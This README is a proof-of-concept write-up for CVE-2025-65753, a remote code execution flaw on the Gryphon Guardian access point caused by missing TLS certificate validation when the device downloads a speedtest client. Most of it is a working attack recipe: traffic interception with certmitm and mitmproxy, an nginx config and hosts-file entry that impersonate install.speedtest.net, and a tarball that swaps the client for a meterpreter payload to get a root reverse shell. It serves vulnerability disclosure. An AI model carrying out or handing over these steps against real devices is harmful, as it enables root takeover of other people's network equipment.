






# CVE-2025-65753

Proof of concept for CVE-2025-65753: Remote code execution on the Gryphon Guardian access point, firmware version 01.06.0006.22, through an improper TLS certificate validation.

# Description

The Gryphon Guardian WiFi access point, with firmware version 01.06.0006.22, does not properly validar the TLS certificate of an internet speedtest client downloaded after prompting it through the app. This flaw allows for an attacker to intercept and manipulate the communication, injecting the client with malicious code that is subsequently executed as root by the access point. 

# PoC

There are 2 ways of exploiting this vulnerability: 
* Through a MitM attack, directly intercepting the communication between the access point and the server
* By spoofing DNS responses and impersonating the server

For the purposes of this PoC, the traffic from the access point is being routed through the attackers computer (basically a MitM attack), by bridging 2 network interfaces, as seen in this diagram. 


To do this, while also redirecting TCP traffic to local port 9900 for analisys, I used my own tool: https://github.com/diegovargasj/bridge-interfaces



Next, I used aapooksman's certmitm tool (https://github.com/aapooksman/certmitm) to analyze TLS connections and automatically deploy multiple attacks to test the certificate's validation. This reveals several flaws to multiple servers. The one that caught my attention was the speedtest client download from https://install.speedtest.net/app/cli/ookla-speedtest-1.2.0-linux-armhf.tgz which can be intercepted with a simple self signed certificate.



The tarball contains a 32 bit ARM compiled ELF, which clearly gets downloaded, unpackaged and executed by the device.



The device does not validate the TLS certificate for authenticity, since it gladly accepts a simple self signed one. Thus, by deploying an HTTPS server and spoofing DNS responses for install.speedtest.net, you can serve any executable of your choosing. To do this, simply use the follosing nginx config:

```
server {
    listen 443 ssl default_server;
    server_name install.speedtest.net;

    ssl_certificate /path/to/self_signed_cert.pem;
    ssl_certificate_key /path/to/self_signed_key.pem;

    root /path/to/webroot;
}
```

Next, add the following line to your `/etc/hosts` file, to spoof DNS responses through dnsmasq.

```
192.168.0.15    install.speedtest.net
```

Finally, restart the `bridge-interfaces.sh` script, kill `certmitm.py` and run `mitmproxy`:

```
mitmproxy --listen-host 192.168.0.15 --listen-port 9900 --mode transparent -k
```

Now we only need the payload. Since the access point has python installed, a simple meterpreter script will suffice. Create the script with `msfvenom`:



Replace the original ELF from the speedtest client with a bash script to call the payload:

```
python payload.py
```

And package it into a tarball, with the proper path so it matches the web request to https://install.speedtest.net/app/cli/ookla-speedtest-1.2.0-linux-armhf.tgz:

```
tar -czvf ookla-speedtest-1.2.0-linux-armhf.tgz speedtest payload.py
```

Now we set up the meterpreter listener. After calling the speedtest from the Gryphon app, we get the reverse shell as root.



And we can execute arbitraty commands within the access point.


